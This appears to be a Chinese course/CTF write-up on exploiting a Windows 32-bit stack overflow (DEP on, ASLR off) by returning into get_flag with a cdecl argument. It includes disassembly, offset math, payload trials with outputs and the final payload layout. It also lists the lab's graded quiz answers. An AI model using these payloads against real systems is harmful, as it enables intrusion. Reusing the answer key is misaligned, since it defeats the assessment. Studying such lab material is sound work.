










# 5-2 系统层漏洞利用与逆向分析 · DEP 数据执行保护利用（ret2text 带参数与 cdecl 参数布局）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 系统层漏洞利用与逆向分析-DEP数据执行保护利用-G2（sectionID `6665`，课程内 number 19，题目内部编号 `C026-G2-F`） |
| 分类 | Pwn / 逆向分析 / 系统层漏洞利用（Windows PE 32 位栈溢出 + DEP 绕过 + cdecl 参数布局） |
| 题目描述 | 靶机 `172.17.84.102:9999` 上运行一个 Data processor 服务（banner `Data processor ready.` / `Input: `，且**不回显输入**），附件 `challenge.exe` 就是它的 Windows 可执行文件。要求下载附件做本地逆向，找到程序中的漏洞，连接靶机**劫持控制流**，触发 `get_flag()` 函数取得**一次性凭证**（有效期 10 分钟），再拿凭证到实验环境里的 flag 兑换容器换取 flag。 |

Flag 题（questionID=8825）题干原文要点：

> * 运行题目的靶机地址：`172.17.84.102:9999`
> * 在「实验环境」中申请的容器运行 flag 兑换服务
>
> 附件中提供了运行在靶机上的 `challenge.exe`，请下载后进行本地逆向分析。找到程序中的漏洞，连接靶机并劫持控制流，触发 `get_flag()` 函数以获取一次性凭证（有效期 10 分钟）。
>
> 使用 `nc` 连接靶机：`nc 172.17.84.102:9999`
>
> 成功获取一次性凭证后，在你自己的电脑上访问 flag 容器兑换 flag：`curl "http://<Flag容器IP>:<port>/flag?token=<你的凭证>"`

Note：本题是该系列 G2 题，防护组合与 5-1（G1）相同——「**DEP 开、ASLR 关**」（`DllCharacteristics = 0x8100`，没有 `DYNAMICBASE`），因此仍然是一次 `ret2text`、不需要 ROP 链。真正的区别在**目标函数带参数**：G2 的 `get_flag` 会校验 `cmp dword ptr [ebp+0x8], 0xdeadbeef`，所以「把返回地址改成 `0x401000`」只是完成了一半，还必须按 cdecl 约定把 `0xdeadbeef` 摆到 `[ESP+4]`（步骤 4、10）。这也直接决定了 5-1 那种「只写一个 NUL 的部分覆盖」在 G2 上**进得了函数却拿不到凭证**（步骤 8）——这是本文与 5-1 最值得对照的一处差异。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台，课程 ID `1639`，本章节 `sectionID` `6665`（课程内 number 19） |
| 账号 | 平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（8799 / 8801 / 8803）+ 1 道多选（8805）+ 1 道 Flag 填空（8825）；题面接口返回 `answersTotal=5`、`isResubmit=false` ⇒ **判分只有一次机会** |
| 靶机实例 | envID `1159`（实验环境名 `C026-G2-F`），podID `9s26asxckji3lbuau3iy4sibv`，容器名 `s-148741`，image `t-11637/c026-g2-f:2026`；交付时 `state=Running`，`targetPorts=[22,80]`，过期时间 2026-10-13 20:05:38 |
| 端口映射（实测 `portInfos`） | `13088 → 22`（SSH）、**`13093 → 80`（flag 兑换服务）** |
| flag 兑换服务 | `http://172.17.0.13:13093/flag?token=<token>`（HTTP，返回 `text/plain`） |
| Pwn 靶机 | `172.17.84.102:9999`，实测 banner `Data processor ready.\r\nInput: `（**与 5-1 的 `Echo service` 不同**），且不回显输入 |
| 附件 | `challenge.exe`：PE32 executable (console) Intel 80386, for MS Windows，116224 B（题面附件表显示 113.5 K），MD5 `c86488c18bd4177c182a2014b85befd9` |
| 章节附件 | 本题 `sectionFiles` 为**空**：对两份章节 `.md` 名调用章节附件接口都返回 `{"code":10092,"msg":"query section file failed"}`（落盘产物就是这段 48 字节 JSON） |
| 本机工具 | 无 pwntools / pefile / Ghidra；用 Apple LLVM `objdump`（21.0.0）+ Python3 原生 `socket` / `struct` 完成全部利用与验证；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | 4 道选择题的判定结果与平台判分一致（`isCorrect` 全为 true）：**8799=B、8801=D、8803=A、8805=A+C+D**；按惯例本文不展开选择题解析 |

## 解题过程

### 1. 附件下载与完整性核对（截图 03）

题目附件不走章节附件接口（本题该接口整体不可用），而是走题目附件接口，`ID` 必须填 **questionID（8825）**：

```bash
HEAD /api/question/file/challenge.exe?ID=8825      # 200，响应头带 Url: 与 Filename:
GET  /api/question/file/challenge.exe?ID=8825      # 116224 B
```

拿到后核对体积与哈希，并确认文件类型与题面一致：

```console
$ md5 .local/process/5-2-scripts/files/challenge.exe
MD5 (challenge.exe) = c86488c18bd4177c182a2014b85befd9
$ file .local/process/5-2-scripts/files/challenge.exe
files/challenge.exe: PE32 executable (console) Intel 80386, for MS Windows
$ wc -c .local/process/5-2-scripts/files/challenge.exe
  116224
```

MD5 与体积和题面给出一致，说明附件未被篡改。文件的数据段里随后被原样定位到 banner 字符串 `Data processor ready.\r\n` 与提示串 `Input: `（步骤 3），确认靶机上跑的正是这份程序。



### 2. 靶机连通与 banner 特征（截图 01）

先确认两个端口都在线，再读一次靶机 banner：

```console
$ nc -z -w 5 172.17.84.102 9999 && echo PWN_TARGET_OPEN
PWN_TARGET_OPEN
$ nc -z -w 5 172.17.0.13 13093 && echo FLAG_SVC_OPEN
FLAG_SVC_OPEN

$ python3 -c "import socket;s=socket.create_connection(('172.17.84.102',9999));print(repr(s.recv(4096)))"
b'Data processor ready.\r\nInput: '
```

两处与 5-1 的差异要单独记下，它们都是后续判断的证据：

1. banner 从 `Echo service` 变成了 `Data processor ready.`——说明**靶机上跑的是另一份程序**，不能照搬 5-1 的偏移与 payload；
2. 该服务**不回显输入**（5-1 会回显 `Echo: xxx`），所以「猜偏移」时没有回显可看，只能靠 `Wrong key` / token 这类**结果性输出**来区分成功与失败（步骤 5–8 全部依赖这一点）。



### 3. 静态分析：PE 防护标志与导出表（截图 03）

```console
$ objdump -p files/challenge.exe | sed -n '1,30p'
Magic                   010b	(PE32)
ImageBase               00400000
Subsystem               00000003	(Windows CUI)
DllCharacteristics      00008100
					NX_COMPAT
					TERMINAL_SERVER_AWARE

$ objdump -p files/challenge.exe | sed -n '/Export Table:/,/^$/p'
Export Table:
 DLL name: challenge.exe
 Ordinal base: 1
 Ordinal      RVA  Name
       1   0x1000  get_flag
       2   0x1030  vuln
```

三条关键结论：

1. `DllCharacteristics = 0x8100 = NX_COMPAT（0x0100）+ TERMINAL_SERVER_AWARE（0x8000）`，**没有 `DYNAMICBASE`（0x0040）** ⇒ **DEP 开启、ASLR 关闭**，加载基址恒为 `ImageBase = 0x400000`，函数地址在逆向阶段就能写死；
2. `get_flag` 的导出 RVA 是 `0x1000` ⇒ 静态地址 **`0x00401000`**；`vuln` 的 RVA 是 `0x1030` ⇒ `0x00401030`（G1 的 `vuln` 是 `0x1020`，地址不同再次说明不能照抄）；
3. 导入表里另有 `getflag.dll!GetFlag`（IAT `0x416130`，就是打印一次性凭证的那个函数）与 `KERNEL32.dll!ExitProcess`（IAT `0x416008`）——后面会在 `get_flag` 的命中分支里看到它们。

> 补充：`get_flag` 是**导出函数**（`Export Table` 里列着），这在本题里只是「地址好找」的便利，并不是利用的前提；真正的前提是 `.text` 页可执行 + 地址固定。

### 4. 反汇编复核：`get_flag` 带参数、`vuln` 缓冲 128 字节、偏移 132（截图 03）

```console
$ objdump -d -M intel --start-address=0x401000 --stop-address=0x4010c4 files/challenge.exe
00401000 <get_flag>:
  401000: 55                           	push   ebp
  401001: 8b ec                        	mov    ebp,esp
  401003: 81 7d 08 ef be ad de         	cmp    dword ptr [ebp+0x8],0xdeadbeef   ← 带参数校验！
  40100a: 74 13                        	je     0x40101f
  40100c: 8b 45 08                     	mov    eax,dword ptr [ebp+0x8]
  40100f: 50                           	push   eax
  401010: 68 00 d0 41 00               	push   0x41d000        ; "Wrong key: 0x%08X\n"
  401015: e8 f6 00 00 00               	call   0x401110
  40101a: 83 c4 08                     	add    esp,0x8
  40101d: eb 0f                        	jmp    0x40102e
  40101f: ff 15 30 61 41 00            	call   dword ptr [0x416130]   ; getflag.dll!GetFlag → 打印一次性 token
  401025: 6a 00                        	push   0x0
  401027: ff 15 08 60 41 00            	call   dword ptr [0x416008]   ; ExitProcess(0)
  40102e: 5d                           	pop    ebp
  40102f: c3                           	ret

00401030 <vuln>:
  401030: 55                           	push   ebp
  401031: 8b ec                        	mov    ebp,esp
  401033: 81 ec 80 00 00 00            	sub    esp,0x80            ; 栈上缓冲区 128 字节
  401039: 68 14 d0 41 00               	push   0x41d014            ; "Input: "
  40103e: e8 cd 00 00 00               	call   0x401110
  401043: 83 c4 04                     	add    esp,0x4
  401046: 8d 45 80                     	lea    eax,[ebp-0x80]      ; 缓冲区首址 = ebp-0x80
  401049: 50                           	push   eax
  40104a: e8 86 53 00 00               	call   0x4063d5            ; 无长度检查的读入
  40104f: 83 c4 04                     	add    esp,0x4
  401052: 8b e5                        	mov    esp,ebp
  401054: 5d                           	pop    ebp
  401055: c3                           	ret
  ...
  4010bb: e8 70 ff ff ff               	call   0x401030 <vuln>    ; ← 唯一调用点，返回地址 = 0x4010C0
  4010c0: 33 c0                        	xor    eax,eax
  4010c2: 5d                           	pop    ebp
  4010c3: c3                           	ret
```

**偏移推导（自己算）**：

```text
缓冲区首址        = ebp - 0x80        （128 字节）
saved EBP         = [ebp]             （4 字节）
saved 返回地址    = [ebp + 4]
缓冲区首字节 → 返回地址首字节 = 0x80 + 4 = 128 + 4 = 132 字节
```

三个必须钉死的点：

1. **`get_flag` 带参数**：`cmp dword ptr [ebp+0x8],0xdeadbeef`，`je` 命中才走 `call dword ptr [0x416130]`（取凭证）→ `ExitProcess(0)`；未命中则 `printf("Wrong key: 0x%08X\n", arg)` 后走 `pop ebp; ret` 正常返回。**这就是 G2 与 G1 的分水岭**：5-1 的 `get_flag` 一进去就取凭证，G2 必须先把参数摆对；
2. **无界读取（`gets` 语义、一次读完）**：`0x4063d5` 内部是 `push 1; push -1; push [ebp+8]; call 0x406272`，长度参数 `-1` ⇒ 无长度检查、**一次**读到换行为止，换行本身被丢弃、随后在 `buf[N]` 写一个终止 NUL（`N` = 实际读入的字节数）。步骤 8 的 7 组边界实验与这条语义逐行对得上，不需要任何「分块/二次读入」假设；
3. **`vuln` 无 `/GS`**：函数序言里没有 `__security_cookie` 的检查，返回地址可以被直接覆盖；调用点 `0x4010bb` 的下一条指令是 `0x4010c0` ⇒ **`call vuln` 的返回地址 = `0x004010C0`**。

数据段字符串（按 RVA 定位，非猜测）：`0x41d000 = "Wrong key: 0x%08X\n"`、`0x41d014 = "Input: "`、`0x41d01c = "Data processor ready.\r\n"`。

### 5. 失败对照一：只发 132 字节（截图 01）

先不做任何显式覆盖，只把缓冲区与 saved EBP 填满（脚本在每个 payload 末尾补一个 `\n` 结束读入）：

```console
$ python3 exploit.py ctrl132
### 失败对照1: 只发 132 字节（刚好填满 buffer+saved EBP）
payload len = 132
--- response (23 bytes) ---
Wrong key: 0x0040130C
```

现象与解释：

- 读入是 `gets` 语义：132 字节正好写到偏移 131，读入函数在 `buf[132]` 补的终止 NUL 落在**偏移 132 = 返回地址的最低字节**上，`0x004010C0` 的低字节 `0xC0` 被打成 `0x00` ⇒ 返回地址变成 `0x00401000`（`get_flag`）——**程序确实进了 `get_flag`**，输出 `Wrong key` 就是它在打印参数；
- 但 `0xdeadbeef` 从头到尾没有出现在我们的输入里：`get_flag` 入口的 `[ESP+4]` 对应 `buf[140]`，这一格**我们没碰过**，读到的是调用方栈残留 `0x0040130C`（即 `0x401307: call 0x401060` 那条指令的返回地址），于是**只打印 `Wrong key`、不取凭证**；
- 未命中分支 `ret` 用的是 `[ESP]`（同样是调用方残留），落回程序原有控制流后自然结束/崩溃，所以**看不到第二条** `Wrong key`（对照：`132 + GF + GF` 时 `[ESP]` 被写成 `0x401000`，才会二次进入、出现第二条）。
- 没有凭证，就是这条路径的失败结论。

### 6. 失败对照二：132 + `p32(0x41414141)`（截图 01）

明确把返回地址覆盖成一个非法地址，验证「返回地址确实可被覆盖」以及「跳到无效地址没有凭证」：

```console
$ python3 exploit.py ctrlbad
### 失败对照2: 覆盖返回地址为无效地址 0x41414141
payload len = 136
--- response (0 bytes) ---
<无输出/连接关闭>          # EIP=0x41414141 → 访问违例，进程异常终止，耗时约 3.6 s
```

`0x41414141` 不在任何可执行页里（DEP 拦的是数据页执行，这里连「有代码」都谈不上），进程直接访问违例崩溃；`stdout` 缓冲没来得及 flush，所以一个字都没有。对照成立：**返回地址可覆盖，但目标地址必须落在可执行段**。

### 7. 失败对照三：显式写一个 NUL，想复刻 5-1 的部分覆盖（截图 01）

5-1 靠「读入函数自动补 NUL」把 `0x4010C0` 打成 `0x401000` 就能拿凭证；那么在 G2 上主动写一个 `0x00` 呢？

```console
$ python3 exploit.py ctrlnul
### 失败对照3: NUL 部分覆盖返回地址 -> 0x00401000（参数不受控）
payload len = 133（132*'A' + 显式 \x00）
--- response (0 bytes) ---
<无输出/连接关闭>
```

连 `Wrong key` 都没有输出，说明这次控制流**根本没落到 `get_flag`**：我们显式写的 `0x00` 落在 `buf[132]`，读入函数又在 `buf[133]` 补了终止 NUL（换行被丢弃、替换为终止符），返回地址 4 个字节因此变成 **`0x00000000`** ⇒ 跳到空地址直接崩溃，连一次打印都来不及。这条对照说明「靠一个 NUL 只够改一个字节，多写一个字节就把返回地址整个毁掉」。

但这条对照真正的价值在于后半句：**即便控制流落进 `get_flag`（如步骤 5 那条路径），参数仍然不可控，一样拿不到凭证**——「部分覆盖」这条路在 G2 上从两端都被堵死。原因见步骤 8。

### 8. 末尾 NUL 落在哪一格：7 组边界对照与「5-1 的部分覆盖为何在 G2 失效」（截图 01）

把偏移与「读入补的终止 NUL 落在 `buf[N]`」这条语义一起代数化，`N` 取实际读入字节数、缓冲区 `buf = ebp-0x80`，7 组边界实验（原始日志 `logs/05-layout-probe.log`、`logs/06-offset-pin.log`、`logs/07-repro-matrix.log`、`logs/08-read-semantics.log`）全部对得上：

| payload | N | 终止 NUL 落在 | 实测效果 |
| --- | --- | --- | --- |
| `A*132` | 132 | `buf[132]` = 返回地址最低字节 | `0x4010C0 → 0x401000` ⇒ 进 `get_flag`；参数槽 `[ESP+4] = buf[140]` 是**未触碰的调用方栈残留** `0x0040130C` ⇒ `Wrong key: 0x0040130C` |
| `A*132 + p32(0x401000)` | 136 | `buf[136]` | 返回地址被**完整写对**成 `0x401000`；`[ESP+4]` 仍读 `buf[140]` 的残留 `0x0040130C` ⇒ 同样 `Wrong key: 0x0040130C`（**并不是「入口放错位置」**） |
| `A*132 + p32(0x401000) + p32(0x401000)` | 140 | `buf[140]` = **参数槽最低字节** | `0x0040130C` 被打成 `0x00401300` ⇒ 第一行 `Wrong key: 0x00401300`；`[ESP]` 的假返回地址又是 `0x401000`，于是二次进入 ⇒ 第二行 `Wrong key: 0x00000001` |
| `A*132 + p32(0x401000) + p32(0xdeadbeef)` | 140 | `buf[140]` = 参数槽最低字节 | `0xdeadbeef` 落在了**假返回地址槽** `[ESP]`，参数槽只剩被清零的残留 ⇒ `Wrong key: 0x00401300`，无凭证 |
| `A*132 + p32(0x401000) + p32(0x401000) + p32(0xdeadbeef)` | 144 | `buf[144]`（参数槽之后） | 四段齐全：`[ESP]`=假返回地址、`[ESP+4]`=`0xdeadbeef` ⇒ **命中、出凭证**（步骤 10） |
